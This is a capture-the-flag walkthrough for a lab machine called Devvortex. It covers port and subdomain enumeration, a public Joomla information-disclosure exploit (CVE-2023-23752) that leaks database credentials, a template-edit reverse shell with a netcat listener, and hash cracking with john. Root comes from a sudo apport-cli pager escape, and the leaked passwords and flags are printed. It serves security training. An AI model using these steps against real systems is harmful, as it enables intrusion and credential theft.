# Devvortex - Walkthrough


## TARGET : 10.10.11.242
## ATTACKER : OPENVPN IP

## Scanning


`nmap -sC -sV -vv 10.10.11.242`

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://devvortex.htb/
```

## WEBSITE

### /etc/hosts

```
/etc/hosts : 10.10.11.242    devvortex.htb
```

`http://devvortex.htb/`



`gobuster dir -u devvortex.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`



There is nothing interesting in the website, so let's try to find some subdomains.

`gobuster dns -d devvortex.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`



Let's add the subdomain to our `/etc/hosts` file.

```
/etc/hosts : 10.10.11.242    devvortex.htb dev.devvortex.ht
```

`http://dev.devvortex.ht/`



Let's try to bruteforce the subdomain with `gobuster`.

`gobuster dir -u dev.devvortex.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`



`/administrator/` seems interesting, let's try to access it.

`http://dev.devvortex.ht/administrator/`



What's Joomla?

open-source content management system (`CMS`)

Let's look for scripts that can help us to exploit Joomla.

`JoomScan`

`joomscan -u dev.devvortex.htb`



JoomScan found some information like the version -> `4.2.6` which is vulnerable to [Exploit CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752).

`ruby exploit.rb http://dev.devvortex.htb`



### Users

`lewis`

`logan`

DataBase user : `lewis`

DataBase password : `P4ntherg0t1n5r3c0n##`

## Database Connection with the login panel in /administrator/



Let's find a way to get a reverse shell.

It is possible to modify the template of the website



`nc -lvnp 9001`



Let's connect to the database with the credentials we found earlier.

`mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n#`

#### Tables :

```
mysql> show tables
    -> ;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
```

Let's look at the `sd4fg_users` table.

`mysql> select * from sd4fg_users;`



We can see that there is credentials for `logan` and `lewis`.

user : `logan`

hashed-password : `$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj1`

Let's crack the password with `john`.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

password : `tequieromucho`

`ssh logan@devvortex.htb`

```bash
logan@devvortex:~$ ls -la
total 44
drwxr-xr-x 5 logan logan 4096 Dec  7 14:12 .
drwxr-xr-x 3 root  root  4096 Sep 26 19:16 ..
lrwxrwxrwx 1 root  root     9 Oct 26 14:58 .bash_history -> /dev/null
-rw-r--r-- 1 logan logan  220 Sep 26 19:16 .bash_logout
-rw-r--r-- 1 logan logan 3771 Sep 26 19:16 .bashrc
drwx------ 2 logan logan 4096 Oct 26 15:12 .cache
drwx------ 3 logan logan 4096 Dec  7 13:50 .gnupg
-rw-r--r-- 1 logan logan 2363 Dec  7 14:12 h
-rw------- 1 logan logan   47 Dec  7 14:12 .lesshst
drwxrwxr-x 3 logan logan 4096 Dec  7 14:05 .local
-rw-r--r-- 1 logan logan  807 Sep 26 19:16 .profile
-rw-r----- 1 root  logan   33 Dec  7 13:48 user.txt
logan@devvortex:~$ cat user.txt 
30e48860e0895a9ae630926b9f7e2bd8
logan@devvortex:~$ 
```

## Privilege Escalation

`sudo -l`



There is an exploit with the version of `apport-cli` installed on the machine

[Exploit](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb?source=post_page-----605d60f2d5ef--------------------------------)


It is possible to create a crash report stored in `/var/crash/` and execute it with `sudo`.

```bash
logan@devvortex:/$ sleep 80 &
[1] 20812
logan@devvortex:/$ kill -SIGSEGV 20812
logan@devvortex:/$ ls -la /var/crash/
total 40
drwxrwxrwt  2 root  root   4096 Dec  7 15:20 .
drwxr-xr-x 13 root  root   4096 Sep 12 17:36 ..
-rw-r-----  1 logan logan 30261 Dec  7 15:20 _usr_bin_sleep.1000.crash
logan@devvortex:/$ sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash 
What would you like to do? Your options are:
  S: Send report (30.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
ERROR: Cannot update /var/crash/_usr_bin_sleep.1000.crash: [Errno 13] Permission denied: '/var/crash/_usr_bin_sleep.1000.crash'
....................
:!/bin/bash
root@devvortex:/# cd /root/
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt 
de3b8304175c0f0b07b1836d2c9caa97
```